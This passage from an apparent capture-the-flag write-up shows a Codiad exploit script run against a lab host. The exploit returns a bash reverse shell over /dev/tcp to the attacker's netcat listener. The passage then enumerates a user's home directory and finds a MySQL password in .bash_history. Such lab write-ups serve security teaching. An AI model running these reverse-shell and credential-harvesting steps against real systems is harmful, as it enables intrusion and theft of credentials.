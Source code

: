let's craft the command 
```terminal
python3 49705.py http://10.10.4.124:62337/ john password 10.11.123.194 4444 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.11.123.194/4445 0>&1 2>&1"' | nc -lnvp 4444
nc -lnvp 4445
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"oo","path":"oo"}}
[+] Writeable Path : oo
[+] Sending payload...
```
after running the two commands in separate terminals 
we get the shell 

### initial access

```terminal
nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.11.123.194] from (UNKNOWN) [10.10.4.124] 55344
bash: cannot set terminal process group (917): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ whoami
whoami
www-data
```

now we have to find a way to get access to the other users on the system

```terminal
www-data@ide:/$ cd home
cd home
www-data@ide:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root root 4096 Jun 17  2021 .
drwxr-xr-x 24 root root 4096 Jul  9  2021 ..
drwxr-xr-x  6 drac drac 4096 Aug  4  2021 drac
www-data@ide:/home$ cd drac     
cd drac
www-data@ide:/home/drac$ ls -la
ls -la
total 52
drwxr-xr-x 6 drac drac 4096 Aug  4  2021 .
drwxr-xr-x 3 root root 4096 Jun 17  2021 ..
-rw------- 1 drac drac   49 Jun 18  2021 .Xauthority
-rw-r--r-- 1 drac drac   36 Jul 11  2021 .bash_history
-rw-r--r-- 1 drac drac  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11  2021 .bashrc
drwx------ 4 drac drac 4096 Jun 18  2021 .cache
drwxr-x--- 3 drac drac 4096 Jun 18  2021 .config
drwx------ 4 drac drac 4096 Jun 18  2021 .gnupg
drwx------ 3 drac drac 4096 Jun 18  2021 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
-rw-r--r-- 1 drac drac    0 Jun 17  2021 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18  2021 .xsession-errors
-r-------- 1 drac drac   33 Jun 18  2021 user.txt
www-data@ide:/home/drac$ cat .bash_history
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```